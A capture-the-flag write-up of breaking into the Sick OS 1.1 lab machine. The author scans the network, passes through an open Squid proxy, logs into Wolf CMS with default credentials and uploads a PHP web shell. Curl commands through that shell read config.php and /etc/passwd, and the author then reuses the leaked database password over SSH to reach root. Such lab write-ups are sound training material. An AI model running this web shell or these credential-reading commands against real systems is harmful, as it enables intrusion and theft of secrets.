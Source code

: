 ### Sick OS 1.1 CTF

The objective of [Sick OS CTF](http://www.vulnhub.com/entry/sickos-11,132/) is to get `/root/a0216ea4d51874464078c618298b1367.txt`.

Further information about CTF mentions that this CTF is similar to what one has to work with during OSCP course. Sounds like a fun.

After reading the description and having run the given file on VMWare Player, I first wanted to know the IP Address.

I didn't know a quickest way to identify my target IP address. I was on a network with 100s of PCs so I scanned through the `vmnet8` interface that VMWare must have created to see if it can give quick hint to me.
```shell
$ arp-scan --localnet --interface vmnet8
Interface: vmnet8, datalink type: EN10MB (Ethernet)
Starting arp-scan 1.8.1 with 256 hosts (http://www.nta-monitor.com/tools/arp-scan/)
172.16.8.254	00:50:56:fc:f4:ff	VMware, Inc.
```

Now, I know that the guests I run on VMWare might have VMWare, Inc. signature that would help me reduce the scope.

```shell
$ arp-scan --localnet --interface eno1 | grep "VMware"
192.168.168.181	00:0c:29:7b:51:b0	VMware, Inc.
```

We got the target IP now and I ran nmap against it.
```shell
$ nmap -A 192.168.168.181

Starting Nmap 6.47 ( http://nmap.org ) at 2016-02-22 15:19 CST
Nmap scan report for 192.168.168.181
Host is up (0.00022s latency).
Not shown: 997 filtered ports
PORT     STATE  SERVICE    VERSION
22/tcp   open   ssh        OpenSSH 5.9p1 Debian 5ubuntu1.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   1024 09:3d:29:a0:da:48:14:c1:65:14:1e:6a:6c:37:04:09 (DSA)
|   2048 84:63:e9:a8:8e:99:33:48:db:f6:d5:81:ab:f2:08:ec (RSA)
|_  256 51:f6:eb:09:f6:b3:e6:91:ae:36:37:0c:c8:ee:34:27 (ECDSA)
3128/tcp open   http-proxy Squid http proxy 3.1.19
|_http-methods: No Allow or Public header in OPTIONS response (status code 400)
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:  GET HEAD
|_http-title: ERROR: The requested URL could not be retrieved
8080/tcp closed http-proxy
MAC Address: 00:0C:29:7B:51:B0 (VMware)
Device type: general purpose
Running: Linux 3.X
OS CPE: cpe:/o:linux:linux_kernel:3
OS details: Linux 3.11 - 3.14
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.22 ms 192.168.168.181

OS and Service detection performed. Please report any incorrect results at http://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 24.41 seconds
```

ssh and squid, that looks interesting and 8080 but not accessible. But, hey did you see that 3128/tcp port is open and is potentially open proxy? I updated my firefox proxy settings to use this proxy and visited http://127.0.0.1 (You have to remove the entries of 127.0.0.1 and/or localhost from `No Proxies for:` textarea in Firefox settings).

![Localhost](images/sickos-1.png?raw=true "Localhost : Sick OS")

That's good for us. I have a habit of usually loading `/robots.txt` before I run the tools like `nikto` or any other directory busting tools. And, it revealed the following information:
```shell
User-agent: *
Disallow: /
Dissalow: /wolfcms
```

I went ahead and visited [http://127.0.0.1/wolfcms/](http://127.0.0.1/wolfcms/) and it loads Wolf CMS. Awesome. Doing some search online revelead that the admin panel could be accessed at [http://127.0.0.1/wolfcms/?admin](http://127.0.0.1/wolfcms/?admin) which did. I also saw that there were couple of exploits out there for Wolf CMS and one of them: [Arbitrary File Upload](https://www.exploit-db.com/exploits/36818/) caught my eyes and I began wondering if I could log into the system as the exploit required one to be authenticated. I had checked wolfcms site so I tried to login with `admin:demo123` but it didn't work. Then, there come two default guesses: `admin:admin` and `admin:password` before getting deeper into any bruteforcing. And, boooom! `admin:admin` worked like a charm. Easy, huh?

Now, the fun begins after getting access to the admin panel. I wrote a simple PHP shell to see if we will have PHP scripts interpreted. Remember earlier we had seen on nmap scan that we could have apache running.

```PHP
<?php
if (isset($_GET['cmd'])) {
  print(shell_exec($_GET['cmd']));
}
```

Tried if I can directly see the content of the file we're looking for but it returns nothing.
```shell
$ curl --proxy http://192.168.168.181:3128 "http://127.0.0.1/wolfcms/public/lol.php?cmd=cat%20/root/a0216ea4d51874464078c618298b1367.txt"
```

That didn't work, as I expected. My next bet was to see the configuration files for wolfcms. Few requests gave me the idea that we've configuration at `/var/www/wolfcms/config.php` but it would return a blank page with `cat` command to me. The following didn't work either.

```shell
$ curl --proxy http://192.168.168.181:3128 "http://127.0.0.1/wolfcms/public/lol.php?cmd=while%20read%20line;%20do%20echo%20%22$line%22;%20done%20%3C%20%20/var/www/wolfcms/config.php"
```

I thought of giving `tail` a try and it worked.

```shell
$ curl --proxy http://192.168.168.181:3128 "http://127.0.0.1/wolfcms/public/lol.php?cmd=tail%20-n200%20/var/www/wolfcms/config.php"
---redacted---
// Database settings:
define('DB_DSN', 'mysql:dbname=wolf;host=localhost;port=3306');
define('DB_USER', 'root');
define('DB_PASS', 'john@123');
define('TABLE_PREFIX', '');
---redacted---
```

I remembered that port 22 had OpenSSH running so went there to try but it gave me `permission denied` when I tried with `root` user. But, I had the content of `/etc/passwd` which revealed the users in the OS.

```shell
$ curl --proxy http://192.168.168.181:3128 "http://127.0.0.1/wolfcms/public/lol.php?cmd=cat%20/etc/passwd"
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh
list:x:38:38:Mailing List Manager:/var/list:/bin/sh
irc:x:39:39:ircd:/var/run/ircd:/bin/sh
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
libuuid:x:100:101::/var/lib/libuuid:/bin/sh
syslog:x:101:103::/home/syslog:/bin/false
messagebus:x:102:105::/var/run/dbus:/bin/false
whoopsie:x:103:106::/nonexistent:/bin/false
landscape:x:104:109::/var/lib/landscape:/bin/false
sshd:x:105:65534::/var/run/sshd:/usr/sbin/nologin
sickos:x:1000:1000:sickos,,,:/home/sickos:/bin/bash
mysql:x:106:114:MySQL Server,,,:/nonexistent:/bin/false
```

So, I tried to ssh as `sickos` user using password `john@123` and boom, we're in. The user had sudo access and we got the password.

```shell
$ ssh sickos@192.168.168.181
sickos@192.168.168.181's password:
Welcome to Ubuntu 12.04.4 LTS (GNU/Linux 3.11.0-15-generic i686)

 * Documentation:  https://help.ubuntu.com/

  System information as of Tue Feb 23 20:20:10 IST 2016

  System load:  0.0               Processes:           112
  Usage of /:   4.3% of 28.42GB   Users logged in:     1
  Memory usage: 16%               IP address for eth0: 192.168.168.181
  Swap usage:   0%

  Graph this data and manage this system at:
    https://landscape.canonical.com/

124 packages can be updated.
92 updates are security updates.

New release '14.04.3 LTS' available.
Run 'do-release-upgrade' to upgrade to it.

Last login: Tue Feb 23 20:19:23 2016 from 192.168.168.70
sickos@SickOs:~$ sudo su
[sudo] password for sickos:
root@SickOs:/home/sickos# cat /root/
a0216ea4d51874464078c618298b1367.txt  .bashrc                               .mysql_history                        .viminfo                              
.bash_history                         .cache/                               .profile                              
root@SickOs:/home/sickos# cat /root/a0216ea4d51874464078c618298b1367.txt
If you are viewing this!!

ROOT!

You have Succesfully completed SickOS1.1.
Thanks for Trying


root@SickOs:/home/sickos#
```

Game Over!
